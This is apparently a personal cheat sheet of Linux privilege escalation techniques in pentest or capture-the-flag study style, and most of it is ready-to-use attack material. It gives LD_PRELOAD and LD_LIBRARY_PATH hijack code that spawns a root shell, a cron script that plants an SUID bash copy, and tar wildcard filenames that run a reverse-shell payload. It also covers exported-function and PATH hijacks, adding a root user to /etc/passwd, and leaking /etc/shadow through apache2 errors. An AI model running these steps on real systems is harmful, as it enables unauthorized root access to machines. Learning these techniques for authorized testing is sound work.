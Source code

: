 # LINUX Privesc notes 

- linux smart enum script - https://github.com/diego-treitos/linux-smart-enumeration, linpeas can be used too
- reverse shell suggester suggester - https://github.com/mthbernardes/rsg
- Cheatsheet - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

## kernel exploit 
- searchsploitlinuxkernel 2.6 privesc debian
- ./linux-exploit-suggester-2.pl –k 2.6.32 (https://github.com/jondonas/linux-exploit-suggester-2)

## services running as root
- ps aux | grep '^root' (to list services running as root)
- use --version flag to get the exact version of the service 
- search exploits - exploitdb,google,github etc 

## weak file perms 
- find /etc -maxdepth 1 -writable -type f (list all wirtable files)
- find /etc -maxdepth 1 -readable -type f (list all readable files)
- find / -executable -writable -type d 2- /dev/null (list directories that can be written to)

-check the /etc/shadow and the /etc/password file, if they are read/write-able (the hash in /etc/password has precedence over /etc/shadow)
- we can also append a new row to /etc/passwd for a new user with uid,gid same as root

## backups 
- valuable info as backups 
- dirs to check - /home/user, /, /var/backups, /tmp

## sudo 
- sudo su (if no restrictions on programs that can be executed with sudo)
other ways:
$ sudo -s
$ sudo -i
$ sudo /bin/bash
$ sudo passwd

- sudo -l (list programs this user can & cannot execute with sudo priv)
- then use https://gtfobins.github.io/ to get escape sequence of that program 

## using errors to view restricted files
```
$ sudo apache2 -f /etc/shadow 
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

## SUID & SGID
- find / -type f -a \\( -perm -u+s-o -perm -g+s\\) -exec ls -l {} \; 2> /dev/null (to find suid,sgid files)
- get names and versions of these programs and search for their exploits searchsploit, github, google

## Environment variables 
### LD_PRELOAD (loads the shared obj specified before others)
- sudo -l (check env_reset and whether env_keep includes LD_PRELOAD)
- create a file like:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");}
```
- compile it to .so (shared object)
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```
- sudo LD_PRELOAD=/tmp/preload.so apache2 (running any sudo program like this will give root shell)

### LD_LIBRARY_PATH (searches for shared libraries in given path)
- ldd /usr/sbin/apache2 (prints the shared libraries used by a program)
- choose one shared library (its a hit or miss so try diff libs till it works)
- create a file 
```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");}
```
- compile it same name as shared lib 
```
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```
- sudo LD_LIBRARY_PATH=. apache2 (giving path as current dir and root shell is obtained)

## CronJobs
- scripts that can be run as root in time intervals
- /var/spool/cron/ or /var/spool/cron/crontabs/ (user crontab)
- /etc/crontab (system wide crontabs)
- try to write to script run as cronjob or replace it with own script
If a cronjob program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cronjob for eg:
```
#!/bin/bash 
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
 ``` 
then give it executable permissions (ensure that it is in a directory thats listed in PATH before the actual cronjob scrript)

## Wildcard and Filenames
- --option=key=value (we can create filenames like this to give complex options GTFOBins for more options)
- if a command in the cronjob script runs with wildcard char * 
eg:
```
$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
gtfobins tells us that tar can use checkpoint flag
We use msfvenom to make an elf payload for reverse shell
and create two files :
```
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
```
listening with nc will give root shell

## SUID/SGID contd
- check suid/sgid files
### shared objects
- if a file name looks like it uses shared objs ('so') that it cant find, run strace on it 
- if it looks for a .so file and isnt able to find it, compile our own with code to spawn a root shell with name as the .so script wants 
eg:
```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
    setuid(0);
    system("/bin/bash -p");}
```
running suid script will give root

### incomplete PATH 
- if it doesnt use full sys path for a command, compile code to spawn root with name as that command in a dir thats early in $PATH
similar code to that above 
running suid script will give root

### export functions ( bash < 4.2-048)
- if bash lower than 4.2-048 
in eg: a suid script uses /usr/bin/service 
- we can create func with name /usr/bin/service and export it 
```
$ function /usr/sbin/service { /bin/bash -p; }
$ export –f /usr/sbin/service
```
running the suid script will give root

## SHELLOPTS & PS4

## Look for creds in bash_history and config files

## NFS
- if a mount dir has option no_root_sqaush 
- move a rev shell script with suid bit set in that dir from ur pc 
- exxecuting that will give root shell 